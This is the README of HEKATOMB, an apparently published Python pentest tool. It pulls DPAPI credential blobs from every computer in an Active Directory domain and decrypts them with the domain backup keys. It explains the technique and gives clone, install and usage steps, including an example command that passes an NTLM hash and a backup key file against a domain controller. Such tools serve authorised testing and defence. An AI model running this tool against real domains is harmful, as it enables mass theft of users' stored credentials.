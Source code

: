 # The HEKATOMB project

<div align="center">
  <br>
  <img src="https://img.shields.io/badge/Python-3.6+-informational">
  <br>
  <a href="https://twitter.com/intent/follow?screen_name=ProcessusT" title="Follow"><img src="https://img.shields.io/twitter/follow/ProcessusT?label=ProcessusT&style=social"></a>
  <br>
  <h1>
    Because Domain Admin rights are not enough.<br />
                Hack them all.
  </h1>
  <br><br>
</div>

> Hekatomb is a hacking script that connects to LDAP directory to retrieve all computers and users informations.<br />
> Then it will download all DPAPI blob of all users from all computers and uses Domain backup keys to decrypt them.
> 
> Script kiddies codes in C#, real pentester uses Python 🐍
> 
<br><br>
<div align="center">
![info](./.assets/hekatomb.png)
</div>
<br><br>

## What da fuck is this ?
<br />
On Windows, credentials saved in the Windows Credentials Manager are encrypted using Microsoft's Data Protection API and stored as "blob" files in user AppData folder.<br />
Outside of a domain, the user's password hash is used to encrypt these "blobs".<br />
When you are in an Active Directory environment, the Data Protection API uses the domain controller's public key to encrypt these blobs.<br />
With the private key of the domain controller, it is possible to decrypt all the blobs, and therefore to recover all the secrets recorded in the Windows identification manager of all the workstations in the domain.<br />
<br />
Hekatomb automates the search for blobs and the decryption to recover all domain users' secrets ☠️
<br />
<br />

## Requirements
<br>
Hekatomb is coded in Python 3 and uses Pip to install its requirements :
<br><br>

```python
git clone https://github.com/Processus-Thief/HEKATOMB
cd HEKATOMB
pip3 install -r requirements.txt
```

<br><br>


## Usage
<br>
Hekatomb uses Impacket syntax :
<br><br>

```python
usage: hekatomb.py [-h] [-pvk PVK] [-hashes LMHASH:NTHASH] [-dns DNS] [-port [port]] [-md5] [-debug] [-debugmax] target

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address of DC>

optional arguments:
  -h, --help            show this help message and exit

authentication:
  -pvk PVK              domain backup keys file
  -hashes LMHASH:NTHASH NTLM hashes, format is LMHASH:NTHASH
  -dns DNS              DNS server IP address to resolve computers hostname
  -port [port]          port to connect to SMB Server

verbosity:
  -md5                  Print md5 hash insted of clear passwords
  -debug                Turn DEBUG output ON
  -debugmax             Turn DEBUG output TO MAAAAXXXX
```

<br>
<br>

## Example

<br>

```python
python3 hekatomb.py -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -pvk pvkfile.pvk
```

<br>
<br>
If no domain backup keys are provided, the script will only retrieve DPAPI blobs without decrypting them.
